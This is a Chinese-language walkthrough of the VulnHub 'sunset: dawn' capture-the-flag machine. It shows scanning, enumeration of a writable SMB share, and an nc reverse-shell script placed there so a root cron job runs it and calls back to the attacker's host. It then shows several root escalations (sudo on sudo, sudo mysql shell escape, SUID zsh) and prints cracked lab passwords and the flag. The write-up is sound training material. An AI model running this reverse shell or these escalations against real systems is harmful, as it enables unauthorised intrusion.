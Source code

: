 # sunset: dawn

2024-5-20 https://www.vulnhub.com/entry/sunset-dawn,341/

difficulty: Easy

## IP

192.168.5.21

## Scan

Open Port -> 80,139,445,3306

```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 13
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, ConnectWithDatabase, IgnoreSigpipes, SupportsCompression, IgnoreSpaceBeforeParenthesis, InteractiveClient, Speaks41ProtocolNew, SupportsTransactions, Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolOld, ODBCClient, FoundRows, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: XpJ_"*Ir%^*UPn[]@imj
|_  Auth Plugin Name: mysql_native_password
```

先看看 SMB 上有什么内容：

```
smbclient -N -L //192.168.5.21

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
```

ITDEPT 是我们需要的，登陆 SMB：

```
smbclient -N //192.168.5.21/ITDEPT
```

目录中暂时没内容，但是可能为后门上传木马提供功能，先放在这里。

看看 80 对应的 web 服务有什么，首页没内容，进行目录扫描：

```
http://192.168.5.21/index.html           (Status: 200) [Size: 791]
http://192.168.5.21/logs                 (Status: 301) [Size: 311] [--> http://192.168.5.21/logs/]
http://192.168.5.21/cctv                 (Status: 301) [Size: 311] [--> http://192.168.5.21/cctv/]
```

同时发现这个目录可读可写：

```
smbmap -H 192.168.5.21
ITDEPT  READ, WRITE	PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
```

http://192.168.5.21/logs/ 中能看到系统的几个日志，只有 http://192.168.5.21/logs/management.log 能够访问，看看里面有什么信息。

```
/bin/sh -c /root/pspy64 > /var/www/html/logs/management.log
/bin/sh -c chmod 777 /home/dawn/ITDEPT/product-control
/bin/sh -c chmod 777 /home/dawn/ITDEPT/web-control
/bin/sh -c /home/ganimedes/phobos
/usr/sbin/CRON -f
/bin/sh -c /home/dawn/ITDEPT/web-control
/bin/sh -c /home/dawn/ITDEPT/product-control
```

根据上面摘出来的日志，发现这个日志由 pspy64 定时监控生成的，cron 定时任务每分钟执行，其中发现了 2 个用户 dawn 和 ganimedes，同时看到了一个重要目录名：ITDEPT，跟上面发现的 SMB 名字一样，会不会就是这个目录，同时发现定时任务在调用 web-control 和 product-control，这两个脚本。

尝试 SMB 中上传脚本，并且命名为 web-control，内容如下：

```
#!/bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.5.3 8888 >/tmp/f
```

kali 上监听 8888 端口后，等待 1 分钟，反弹的 shell 已经建立连接。

进入到 /home 目录后，发现了上面日志中的两个用户目录：dawn 和 ganimedes，分别查看是否有有用的信息，每看到什么有用信息。

看看 sudo 是否有特权程序：

```
www-data@dawn:/etc/systemd/system$ sudo -l
Matching Defaults entries for www-data on dawn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dawn:
    (root) NOPASSWD: /usr/bin/sudo
```

直接可以进行利用，得到 root 权限：

```
www-data@dawn:/etc/systemd/system$ sudo -u root sudo /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt  pspy64
# cat flag.txt
Hello! whitecr0wz here. I would like to congratulate and thank you for finishing the ctf, however, there is another way of getting a shell(very similar though). Also, 4 other methods are available for rooting this box!

flag{3a3e52f0a6af0d6e36d7c1ced3a9fd59}
```

根据提示还有其他攻击路径，上面还有一个定时任务 /bin/sh -c /home/dawn/ITDEPT/product-control，让我们把上面的反弹脚本改成 product-control ，端口改为 7777，上传到 SMB 后，看看反弹得到了什么内容。

```
dawn@dawn:~$ id
uid=1000(dawn) gid=1000(dawn) groups=1000(dawn),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
```

看看这个用户有什么 sudo 特权：

```
dawn@dawn:~$ sudo -l
Matching Defaults entries for dawn on dawn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dawn may run the following commands on dawn:
    (root) NOPASSWD: /usr/bin/mysql
```

也可以进行利用，得到 root 权限：

```
sudo mysql -e '\! /bin/sh'
```

但是提示要输入密码，认证不通过，看看在系统中能不能找到这个密码。

在 dawn home 目录的.bash_history 文件中，找到了一串加密字符串，可能是 mysql 的密码：

```
dawn@dawn:~$ cat .bash_history
echo "$1$$bOKpT2ijO.XcGlpjgAup9/"
ls
ls -la
nano .bash_history
echo "$1$$bOKpT2ijO.XcGlpjgAup9/"
```

使用 john + rockyou 解密后，得到了密码：onii-chan29

再次尝试 sudo mysql ，输入密码 onii-chan29 看看密码对不对：

```
dawn@dawn:~$ sudo mysql -u root -p -e '\! /bin/sh'
Enter password:
# id
uid=0(root) gid=0(root) groups=0(root)
```

已经成功获得了 root 权限。

还有一条攻击路径，suid 中存在 /usr/bin/zsh，可以直接进行利用，也得到了 root 权限：

```
dawn@dawn:/etc/samba$ /usr/bin/zsh
#dawn# id
uid=1000(dawn) gid=1000(dawn) euid=0(root) groups=1000(dawn),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
#dawn# cd /root
#dawn# ls
flag.txt  pspy64
```

同时在 ganimedes 的目录中的.bash_history 文件中，找到了 ganimedes 的密码:thisisareallysecurepasswordnooneisgoingtoeverfind

所有能获得 root 的方法都已经找到。
